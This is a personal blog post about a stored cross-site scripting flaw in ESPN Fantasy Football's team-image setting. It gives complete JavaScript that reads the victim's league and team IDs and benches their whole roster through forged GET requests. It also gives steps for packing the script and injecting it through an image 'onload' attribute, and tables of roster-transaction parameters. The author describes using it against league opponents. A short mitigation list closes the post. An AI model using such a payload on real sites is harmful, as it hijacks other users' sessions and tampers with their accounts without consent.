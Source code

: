 title: ESPN Fantasy Football - The Complete Attack
publish: True
categories: [hacking]

I have run an ESPN Fantasy Football League every year since the software was available and am a huge fan of the ESPN Fantasy Football experience. However, last year I came across a series of vulnerabilities in the FFB software which basically give an attacker full control of opponent, and other league, teams. Very few people know of the research I was conducting as I was beginning the disclosure process with ESPN.com's web developers. Today, to my complete surprise, I was made aware of these 2 articles:

[http://www.theregister.co.uk/2010/09/22/espn_fantasy_football_cheating/](http://www.theregister.co.uk/2010/09/22/espn_fantasy_football_cheating/)  
[http://xs-sniper.com/blog/2010/09/22/put-me-in-coach/comment-page-1/](http://xs-sniper.com/blog/2010/09/22/put-me-in-coach/comment-page-1/)

While xssniper rightfully gets the credit for the discovery, as he was quicker to the trigger than I, he missed something in his research which greatly enhances this attack. There is a stored XSS vulnerability in the team image setting which allows an attacker to store a malicious script on the server and completely automates the roster attacks for anyone that is subjected to the team image. ESPN does validate the input by removing '&lt;' and '&gt;' from the input, but what it doesn't do is limit the length of the input. Therefore, you can write the script in its entirety and inject it into the input field. The code that I have developed as a POC also works across leagues. Come back soon as I will be posting screenshots and POC code when I can get back to my lab.

ENJOY!

UPDATE: Note to self, take screenshots prior to disclosure of vulnerabilities. In my own defense, I was caught completely off guard by the disclosure so...

![Oops!](/images/posts/oops.png)

Since i'm limited in the amount of pictures I can show at this point, i'll do my best to explain the process.

### Discovery:

It all started at DEFCON 17. I had spent the majority of my time in the Web App Security track and really enjoyed the concepts of web application testing. As we all know, DEFCON is in late July / early August which was also about the time I typically set up my FFB league for the year. As I was editing my team settings, I saw that you could set a custom image in the form of a url. Since the image is then shown back to you on every page you visit within the league from that point forward, I figured there was some serious potential for a stored XSS attack there. Looking at the code, I noticed that all it did was take the url you submit, and throw it into the 'src' attribute of an image tag. In my first attempt to exploit, i filled the image tag with arbitrary data and appended a script tag to the closed image tag. To ESPN's credit, they actually validated the input and filtered out all '&lt;' and '&gt;'. Therefore, the script tag didn't work. I'd have to exploit via the image tag. Very easy. There are several events in an image that allows you to run javascript, 'onerror' and 'onload'. As you can see from my demo last year, I initially went with the 'onerror' event because I wanted to be completely obvious in testing. ESPN did not validate and filter out any javascript code, so the exploitation worked perfectly. For practical implementation, I went with the 'onload' event, loading an actual team image, and running the script upon a successful load. I had some fun with this over the season.

### Exploitation:

My favorite implementation was a script that prompted other players viewing my team if they were my opponent that week. If they clicked 'yes', then the script went through a series or random "trash talking" phrases. If they clicked 'no', then they were forward to my team page. Harmless really. As I began to look more into the FFB software, I began to notice the same parameter issues that xssniper pointed out in his blog. So a few months ago, I wrote a script which uses the stored XSS vulnerability to parse all of the required parameters from the visiting players browser and executes any series of evil things based upon those params. The code below first determines whether the visiting player is logged in or not. If they are logged in, it parses out the 'teamId', makes an AJAX call for their team page, parses out all of the 'playerId's, then loops through and benches every player using a dummy javascript image request. Basically, on gameday, when my opponent launches the scoreboard, their entire team is benched and they are unable to score any points. XSS FTW... literally!!!

``` javascript
function unique(a) {
  var r = new Array();
  o:for(var i = 0, n = a.length; i &lt; n; i++) {
    for(var x = 0, y = r.length; x &lt; y; x++) {
      if(r[x]==a[i]) {
        continue o;
      }
    }
    r[r.length] = a[i];
  }
  return r;
}
var pagesrc = document.documentElement.innerHTML;
var score_period;
var league_id;
var team_id;
var team_url;
var bench_url;
var player_ids = null;
var patt_pid = /(playerId=).([\d]+).\s/g;
var patt_tid = /([\d]+)/g;
var patt_spid = /currentScoringPeriodId:\s(\d+),/g;
var patt_lid = /leagueId:\s(\d+),/g;
if (pagesrc.search("My Fantasy Teams")!=-1) {
  //get currentScoringPeriodId
  score_period = patt_spid.exec(pagesrc);
  score_period = score_period[1];
  //get leagueId
  league_id = patt_lid.exec(pagesrc);
  league_id = league_id[1];
  //get teamId
  pagesrc = pagesrc.substr(pagesrc.indexOf("My Fantasy Teams"),400);
  team_id = pagesrc.substr(pagesrc.indexOf("teamId=")+7);
  team_id = patt_tid.exec(team_id);
  team_id = team_id[1];
  team_url = "http://games.espn.go.com/ffl/clubhouse?leagueId=" + league_id + "&amp;teamId=" + team_id + "&amp;seasonId=2010";
  var xmlhttp = new XMLHttpRequest();
  xmlhttp.open("GET", team_url, true);
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4) {
      pagesrc = xmlhttp.responseText;
      player_ids_clean = new Array();
      var i = 0;
      while (player_ids = patt_pid.exec(pagesrc)) {
        player_ids_clean[i] = player_ids[2];
        i += 1;
      }
      player_ids_clean = unique(player_ids_clean);
      for (i=0;i&lt;=15;i++) {
        bench_url = "http://games.espn.go.com/ffl/pnc/saveRoster?leagueId=" + league_id + "&amp;teamId=" + team_id + "&amp;scoringPeriodId=" + score_period + "&amp;returnSm=false&amp;trans=1_" + player_ids_clean[i] + "_0_20";
        img = new Image();
        img.src = bench_url;
      }
    }
  };
  xmlhttp.send(null);
}
```

Script usage:

1. Compress with [http://dean.edwards.name/packer/](http://dean.edwards.name/packer/)
2. Copy compressed code and paste into notepad
3. Use notpad to replace all " with '
4. Append result from notepad to `http://[image url]" onload="`

The script is seen as coming from espn, so same origin policy applies and the script is allowed to run. Also, NoScript doesn't help unless you are blocking globally which ruins the espn.com experience.

Other information I was able to discover:

transType table:

```
1=Move
2=Add
3=Drop
```

Position table:

```
0=QB
1=Not on Roster
2=RB1/2
3=RB/WR
4=WR1/2
5=TE
16=D
17=K
20=BENCH
```

ADD Player:

```
transType_playerId_?_?_startPos?_endPos
ex. 2_11390_-1_1001_1_20
```

MOVE Player:

```
transType_playerId_startPos_endPos
ex. 1_1753_0_20
```

DROP Player:

```
transType_playerId_teamId/scoringPeriod?_Position_?_?
ex. 3_1753_1_2_-1_1002
```

Bottom-line Findings and Mitigation:

1. Input box allows strings of any length for input. Bad idea. Limit input.
2. When done for real, there is a confirmation button which issues a POST. However, the server side function will accept a GET, which makes this attack much easier. If they accepted POST only, then we would have to use additional resources to create the attack. Much easier to leverage a session through GET than it is to pass authentication tokens via POST.
3. Some code validation is done, but not enough. May prevent referencing the script from another location, but since it is injectible through 'onerror' and 'onload', and input is unlimited, who cares.
